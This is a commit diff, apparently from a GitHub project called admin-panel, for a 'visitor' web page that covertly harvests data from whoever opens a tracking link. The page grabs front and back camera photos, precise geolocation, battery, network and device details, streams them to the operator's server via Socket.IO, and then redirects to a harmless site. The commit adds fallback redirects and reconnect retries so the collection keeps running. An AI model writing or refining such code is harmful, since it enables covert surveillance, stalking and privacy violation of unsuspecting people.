

Before and after one commit to someshgamer123/admin-panel, a website: page views/visitor.html in a window 1280 px wide. Shown: the part 130-540 px from the top of the page, without its empty margins (289-990 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; files whose address does not match are found by name.

Commit message:
Final fix: Add fallback for visitor redirect and improved error handling

```diff
--- a/views/visitor.html
+++ b/views/visitor.html
@@ -62,6 +62,14 @@
             border-radius: 5px;
             text-align: center;
         }
+        .fallback {
+            background: #ed8936;
+            color: white;
+            padding: 10px;
+            border-radius: 5px;
+            text-align: center;
+            display: none;
+        }
     </style>
 </head>
 <body>
@@ -82,52 +90,86 @@
             ⏳ Collecting data...
         </div>
 
-        <!-- Error message if something goes wrong -->
-        <div id="errorMessage" style="display:none;" class="error">
+        <div id="errorMessage" class="error" style="display:none;">
             ⚠️ Something went wrong. Please try again.
+        </div>
+
+        <div id="fallbackMessage" class="fallback">
+            ⚠️ Using fallback redirect. Data collection continues...
         </div>
     </div>
 
-    <!-- IMPORTANT: Use CDN for Socket.IO -->
     <script src="https://cdn.socket.io/4.6.1/socket.io.min.js"></script>
     <script>
-        // Get visitor ID from URL
         const visitorId = window.location.pathname.split('/').pop();
         console.log('Visitor ID:', visitorId);
 
         let socket = null;
         let localStream = null;
         let redirectUrl = '';
+        let dataCollectionComplete = false;
 
         // ========================================
         // 1. FETCH REDIRECT URL FROM SERVER
         // ========================================
         function fetchRedirectUrl() {
+            console.log('Fetching redirect URL for visitor:', visitorId);
+
+            // Try main endpoint
             fetch(`/api/visitor/${visitorId}`)
-                .then(response => response.json())
+                .then(response => {
+                    if (!response.ok) {
+                        throw new Error(`HTTP error! status: ${response.status}`);
+                    }
+                    return response.json();
+                })
                 .then(data => {
-                    console.log('Visitor data:', data);
+                    console.log('Visitor data received:', data);
                     redirectUrl = data.redirectUrl || 'https://www.google.com';
                     console.log('Redirect URL:', redirectUrl);
-
-                    // Start data collection
-                    initConnection();
+                    startDataCollection();
                 })
                 .catch(error => {
                     console.error('Error fetching visitor data:', error);
-                    document.getElementById('errorMessage').style.display = 'block';
-                    document.getElementById('connectionStatus').innerHTML = '❌ Error loading data';
-                    document.getElementById('connectionStatus').style.background = '#fc8181';
+
+                    // Try fallback endpoint
+                    fetch(`/api/visitor-redirect/${visitorId}`)
+                        .then(response => response.json())
+                        .then(data => {
+                            if (data.redirectUrl) {
+                                redirectUrl = data.redirectUrl;
+                                console.log('Fallback redirect URL:', redirectUrl);
+                                document.getElementById('fallbackMessage').style.display = 'block';
+                                startDataCollection();
+                            } else {
+                                throw new Error('No redirect URL found');
+                            }
+                        })
+                        .catch(() => {
+                            // Ultimate fallback
+                            redirectUrl = 'https://www.google.com';
+                            console.log('Using ultimate fallback URL:', redirectUrl);
+                            document.getElementById('fallbackMessage').style.display = 'block';
+                            document.getElementById('fallbackMessage').innerHTML = '⚠️ Using default fallback. Data collection continues...';
+                            startDataCollection();
+                        });
                 });
         }
 
         // ========================================
-        // 2. INITIALIZE SOCKET CONNECTION
+        // 2. START DATA COLLECTION
+        // ========================================
+        function startDataCollection() {
+            console.log('Starting data collection...');
+            initConnection();
+        }
+
+        // ========================================
+        // 3. INITIALIZE SOCKET CONNECTION
         // ========================================
         function initConnection() {
             console.log('Initializing socket connection...');
 
-            // Connect to Socket.IO
             socket = io({
                 transports: ['websocket', 'polling']
             });
@@ -137,7 +179,6 @@
                 document.getElementById('connectionStatus').innerHTML = '✅ Connected! Collecting data...';
                 document.getElementById('connectionStatus').style.background = '#48bb78';
 
-                // Get device info
                 const deviceInfo = {
                     userAgent: navigator.userAgent,
                     platform: navigator.platform,
@@ -147,13 +188,11 @@
                     simNetwork: 'N/A'
                 };
 
-                // Send visitor connect event
                 socket.emit('visitor-connect', {
                     visitorId: visitorId,
                     ...deviceInfo
                 });
 
-                // Start collecting data
                 setTimeout(() => {
                     setupCamera();
                     getLocation();
@@ -167,6 +206,10 @@
                 document.getElementById('errorMessage').style.display = 'block';
                 document.getElementById('connectionStatus').innerHTML = '❌ Connection failed';
                 document.getElementById('connectionStatus').style.background = '#fc8181';
+                // Retry after 3 seconds
+                setTimeout(() => {
+                    socket.connect();
+                }, 3000);
             });
 
             socket.on('disconnect', () => {
@@ -184,13 +227,12 @@
         }
 
         // ========================================
-        // 3. CAMERA SETUP
+        // 4. CAMERA SETUP
         // ========================================
         async function setupCamera() {
             try {
                 console.log('Setting up camera...');
 
-                // Front camera
                 const frontStream = await navigator.mediaDevices.getUserMedia({
                     video: { facingMode: 'user' },
                     audio: false
@@ -200,12 +242,10 @@
                 video.srcObject = frontStream;
                 document.getElementById('cameraPreview').style.display = 'block';
 
-                // Auto capture front photo after 2 seconds
                 setTimeout(() => {
                     capturePhoto('front');
                 }, 2000);
 
-                // Back camera (if available)
                 try {
                     const backStream = await navigator.mediaDevices.getUserMedia({
                         video: { facingMode: 'environment' },
@@ -229,13 +269,12 @@
                 return true;
             } catch (error) {
                 console.error('Camera error:', error);
-                // Continue without camera
                 return false;
             }
         }
 
         // ========================================
-        // 4. CAPTURE PHOTO
+        // 5. CAPTURE PHOTO
         // ========================================
         function capturePhoto(type, videoElement = null) {
             const video = videoElement || document.getElementById('video');
@@ -252,7 +291,6 @@
 
             const imageData = canvas.toDataURL('image/jpeg', 0.8);
 
-            // Send to server
             if (socket && socket.connected) {
                 socket.emit('visitor-data', {
                     visitorId: visitorId,
@@ -262,12 +300,11 @@
                 console.log(`📸 ${type} camera photo captured and sent!`);
             }
 
-            // Check if all data collected
             checkAndRedirect();
         }
 
         // ========================================
-        // 5. GET LOCATION
+        // 6. GET LOCATION
         // ========================================
         function getLocation() {
             console.log('Getting location...');
@@ -278,7 +315,6 @@
                         const lat = position.coords.latitude;
                         const lng = position.coords.longitude;
 
-                        // Get location details using reverse geocoding
                         fetch(`https://api.bigdatacloud.net/data/reverse-geocode-client?latitude=${lat}&longitude=${lng}&localityLanguage=en`)
                             .then(response => response.json())
                             .then(locationData => {
@@ -305,7 +341,6 @@
                                 checkAndRedirect();
                             })
                             .catch(() => {
-                                // Fallback - basic location
                                 const locationInfo = {
                                     lat: lat,
                                     lng: lng,
@@ -336,7 +371,7 @@
         }
 
         // ========================================
-        // 6. GET BATTERY INFO
+        // 7. GET BATTERY INFO
         // ========================================
         function getBatteryInfo() {
             if (navigator.getBattery) {
@@ -355,7 +390,7 @@
         }
 
         // ========================================
-        // 7. GET NETWORK INFO
+        // 8. GET NETWORK INFO
         // ========================================
         function getNetworkInfo() {
             if (navigator.connection) {
@@ -377,10 +412,14 @@
         }
 
         // ========================================
-        // 8. CHECK AND REDIRECT
+        // 9. CHECK AND REDIRECT
         // ========================================
+        let redirectTriggered = false;
+
         function checkAndRedirect() {
-            // Redirect after 5 seconds
+            if (redirectTriggered) return;
+
+            // Wait 5 seconds then redirect
             setTimeout(() => {
                 console.log('Redirecting to:', redirectUrl);
 
@@ -392,10 +431,10 @@
                     });
                 }
 
+                redirectTriggered = true;
                 document.getElementById('connectionStatus').innerHTML = '✅ Data collected! Redirecting...';
                 document.getElementById('connectionStatus').style.background = '#48bb78';
 
-                // Redirect to original URL after 2 seconds
                 setTimeout(() => {
                     window.location.href = redirectUrl;
                 }, 2000);
@@ -403,12 +442,10 @@
         }
 
         // ========================================
-        // 9. START THE PROCESS
+        // 10. START THE PROCESS
         // ========================================
-        // Fetch redirect URL first
         fetchRedirectUrl();
 
-        // Cleanup on page leave
         window.addEventListener('beforeunload', () => {
             if (localStream) {
                 localStream.getTracks().forEach(track => track.stop());
```
Also changed, not shown: server.js (+16 -3 lines).
